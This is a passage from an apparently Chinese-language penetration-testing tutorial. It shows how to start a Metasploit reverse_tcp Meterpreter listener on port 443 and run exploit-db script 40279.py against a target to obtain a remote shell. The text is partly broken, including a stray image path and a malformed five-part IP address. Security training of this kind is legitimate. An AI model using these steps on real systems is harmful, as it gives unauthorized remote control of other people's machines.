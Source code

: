 ```

1.  一旦代码被替换，保存并关闭文件。启动 Metasploit，并输入以下命令，在 Kali 机器上的端口`443`上启动监听器，就像我们创建有效载荷时提到的那样：

```
          msfconsole
          use exploit/multi/handler
          set payload windows/meterpreter/reverse_tcp
          set lhost <Kali IP address>
          set lport 443
          exploit

    ```

输出将如下截图所示：

![如何做...](img/image_04_048.jpg)

1.  现在，一旦我们的处理程序启动，我们将执行 Python 脚本，并提到目标 IP 地址和操作系统。转到已编辑文件被复制的桌面，并执行 Python 文件。由于它存储在桌面上，执行以下命令：

```
    python 40279.py 192.168.1.11.1

    ```

输出将如下截图所示：

![如何做...](img/image_04_049.jpg)

1.  一旦脚本执行完毕，请返回监听器，查看是否已收到连接：![操作步骤...](img/image_04_050.jpg)

太棒了，我们使用 `exploit-db` 上可用的脚本获得了远程 shell。

## 工作原理...

其中大部分已在步行说明中解释。这里介绍的新工具是 `msfvenom`。以下是所使用参数的解释：

```